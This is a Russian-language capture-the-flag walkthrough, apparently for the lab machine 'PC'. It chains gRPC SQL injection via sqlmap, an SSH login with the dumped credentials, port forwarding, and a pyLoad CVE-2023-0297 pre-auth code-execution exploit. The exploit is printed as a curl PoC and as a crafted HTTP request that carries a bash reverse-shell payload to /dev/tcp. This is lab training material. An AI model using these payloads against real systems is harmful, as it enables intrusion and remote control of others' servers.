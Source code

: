 # PC
:white_check_mark:  [**Grpc connection**](#Grpc_connection)

:white_check_mark:  [**PyLoad exploit(privesc)**](#PyLoad_exploit)

___

## Port scan
Сканируем ip командой:
```
nmap -Pn -p- 10.10.11.214
```

```
PORT      STATE SERVICE
22/tcp    open  ssh
50051/tcp open  unknown
```

<a name="Grpc_connection"></a>

## Grpc connection

Поискав в интернете информацию о порте 50051, мы можем понять, что это сервис grpc.

Так же мы можем найти [графический интерфейс](https://github.com/fullstorydev/grpcui) для взаимодействия с grpc.

Интрефейс grpc:

![](../assets/PC/1.png)

Зарегистрируем нового пользователя:

![](../assets/PC/2.png)

Логинимся под данного пользователя. Внизу страницы мы можем заметить jwt токен пользователя. Скопируем его.

![](../assets/PC/3.png)

Перейдем снова к getInfo. Введем id и токен, который мы скопировали на странице пользователя.

![](../assets/PC/4.png)

Отправим запрос. Мы можем заметить сообщение от сервера.

![](../assets/PC/5.png)

Перехватим данный запрос.

![](../assets/PC/6.png)

Попробуем добавить кавычку в id и отправить запрос. Мы можем заметить, что это действие вызвало ошибку.

![](../assets/PC/7.png)

Сохраним данный запрос в текстовый документ. Заменим в данном документе кавычку на звездочку, для указания sqlmap, в какое место подставлять полезную нагрузку.

![](../assets/PC/8.png)

Далее мы будем использовать sqlmap, для получения данныйх пользователей из базы данных.

```
sqlmap -r req.txt --batch
```

Мы можем заметить, что результат работы sqlmap положителен.

![](../assets/PC/9.png)

Сдампим базу данных.

```
sqlmap -r req.txt --batch --dump
```

![](../assets/PC/10.png)

Мы смогли получить данные пользователя sau. Попробуем подключиться по ssh.

![](../assets/PC/11.png)

Закинем linpeas на машину и запустим скрипт. Мы можем заметить доступные порты.

![](../assets/PC/12.png)

Используем curl на порт 8000 для проверки. Мы можем заметить, что данный сервис активен и пытается редиректить нас на другую страницу.

```
curl http://127.0.0.1:8000
```

![](../assets/PC/13.png)

Пробросим данный порт на нашу машину:

```
ssh -L 9999:127.0.0.1:8000 sau@10.10.11.214
```

![](../assets/PC/14.png)

Проверим проброс порта:

```
ss -at
```

![](../assets/PC/15.png)

<a name="PyLoad_exploit"></a>

## PyLoad exploit(privesc)

Перейдем по данному адресу. Мы можем заметить страницу с сервисом pyLoad.

![](../assets/PC/16.png)

Немного поискав, мы можем найти недавний [эксплоит](https://github.com/bAuh0lz/CVE-2023-0297_Pre-auth_RCE_in_pyLoad) к данному сервису.

```
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/pwnd\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://<target>/flash/addcrypted2'
```

Запустим слушатель на атакуемой машине.

Перехватим запрос с сайта. Модифицируем его, опираясь на PoC, представленный выше.

```
POST /flash/addcrypted2 HTTP/1.1
Host: 127.0.0.1:9999
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 137
Origin: http://127.0.0.1:9999
Connection: close
Cookie: _grpcui_csrf_token=MBTxjKBhaGs3ry_nNU96h14UPR1CE3PjCDfpm6VufHk
Upgrade-Insecure-Requests: 1
Sec-Fetch-User: ?1

package=xxx&crypted=AAAA&jk=pyimport+os;os.system("/bin/bash+-c+'bash+-i+>%26+/dev/tcp/10.10.11.214/6655+0>%261'");f=function%20f2(){};
```

![](../assets/PC/17.png)

Отправляем запрос и получаем обратную оболочку с правами root.

![](../assets/PC/18.png)